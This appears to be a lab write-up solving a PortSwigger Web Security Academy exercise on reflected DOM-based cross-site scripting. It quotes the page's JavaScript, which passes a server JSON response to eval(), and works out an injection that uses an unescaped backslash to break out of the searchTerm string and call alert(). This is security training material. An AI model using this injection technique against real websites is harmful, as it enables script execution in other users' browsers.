 # [Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)

## Lab

This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

To solve this lab, create an injection that calls the `alert()` function.

## Analysis

request:

  ```http
  GET /?search='"<script>test1</script> HTTP/1.1
  ```

- response:

  ```html
  <script>search('search-results')</script>
  ```

  review source code:

  ```javascript
  function search(path) {
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {
              eval('var searchResultsObj = ' + this.responseText);
              displaySearchResults(searchResultsObj);
          }
      };
      xhr.open("GET", path + window.location.search);
      xhr.send();

      function displaySearchResults(searchResultsObj) {
          var blogHeader = document.getElementsByClassName("blog-header")[0];
          var blogList = document.getElementsByClassName("blog-list")[0];
          var searchTerm = searchResultsObj.searchTerm
          var searchResults = searchResultsObj.results

          var h1 = document.createElement("h1");
          h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
          blogHeader.appendChild(h1);
          var hr = document.createElement("hr");
          blogHeader.appendChild(hr)

          for (var i = 0; i < searchResults.length; ++i)
          {
              var searchResult = searchResults[i];
              if (searchResult.id) {
                  var blogLink = document.createElement("a");
                  blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                  if (searchResult.headerImage) {
                      var headerImage = document.createElement("img");
                      headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                      blogLink.appendChild(headerImage);
                  }

                  blogList.appendChild(blogLink);
              }

              blogList.innerHTML += "<br/>";

              if (searchResult.title) {
                  var title = document.createElement("h2");
                  title.innerText = searchResult.title;
                  blogList.appendChild(title);
              }

              if (searchResult.summary) {
                  var summary = document.createElement("p");
                  summary.innerText = searchResult.summary;
                  blogList.appendChild(summary);
              }

              if (searchResult.id) {
                  var viewPostButton = document.createElement("a");
                  viewPostButton.setAttribute("class", "button is-small");
                  viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                  viewPostButton.innerText = "View post";
              }
          }

          var linkback = document.createElement("div");
          linkback.setAttribute("class", "is-linkback");
          var backToBlog = document.createElement("a");
          backToBlog.setAttribute("href", "/");
          backToBlog.innerText = "Back to Blog";
          linkback.appendChild(backToBlog);
          blogList.appendChild(linkback);
      }
  }
  ```

- this line look interesting:

    ```js
    eval('var searchResultsObj = ' + this.responseText);
    ```

request:

  ```http
  GET /search-results?search=test HTTP/1.1
  ```

- response:

  ```json
  {"results":[ ... ],"searchTerm":"test"}
  ```

  - This json will be fed into the eval function, and we controll the `searchTerm` part.

## Solutions

```json
{"results":[ ... ],"searchTerm":"controlled"}
```

```js
eval('var searchResultsObj = ' + this.responseText);
```

craft a payload:

  ```text
  foo"};alert();//
  ```

- failed because `"` is escaped to `\"`:

  ```json
  {"results":[],"searchTerm":"foo\"};alert();//"}
  ```

try again:

  ```text
  foo\"};alert();//
  ```

- success because `\` is not escaped on the server-side, the result is:

  ```json
  {"results":[],"searchTerm":"foo\\"};alert();//"}
  ```
